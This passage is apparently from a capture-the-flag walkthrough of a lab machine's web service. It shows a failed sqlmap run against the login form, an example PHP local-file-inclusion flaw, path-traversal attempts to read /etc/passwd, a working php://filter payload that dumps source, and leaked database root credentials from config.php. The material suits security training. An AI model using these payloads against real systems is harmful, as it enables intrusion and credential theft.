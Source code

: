 _____________________________________________________________________________

## 3\. Checking out the web service

### 3.1 Login page**

![14]({{ site.baseurl}}/images/14.png)

Let's see if we can bypass the authentication form, using manual SQLi attacks as well as `sqlmap` seemed fruitless.

```console
root@kali:~/Desktop# sqlmap -u "http://192.168.1.65/?page=login" --data="user=abcd&pass=abcd&submit=Login" --level=5 --risk=3 --dbms=mysql  
...  
[23:20:31] [CRITICAL] all tested parameters appear to be not injectable. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')  
  
[*] shutting down at 23:20:31  
```
Damn, we need to find other ways, how about the page parameter in the url? It could be vulnerable to LFI.  
### 3.2 LFI vulnerability

Example vulnerable code:  
```php
<?php  
   if (isset($_GET['page']))  
   {  
      include($_GET['page'] . '.php');  
   }  
?>  
```
None of these worked:

  * `http://192.168.1.65/?page=/etc/passwd`
  * `http://192.168.1.65/?page=/etc/passwd`
  * `http://192.168.1.65/?page=../../../../../../../etc/passwd`
  * `http://192.168.1.65/?page=../../../../../../../etc/passwd`

Yet, the following worked!  
```
http://192.168.1.65/?page=php://filter/convert.base64-encode/resource=index  
```
  
Using PHP filters to encode the .php file content to base64 string allows us to bypass it being executed by the server.  
  
#### Config.php:

```php
<?php  
$server      = "localhost";  
$username = "root";  
$password = "H4u%QJ_H99";  
$database = "Users";  
?>  
```
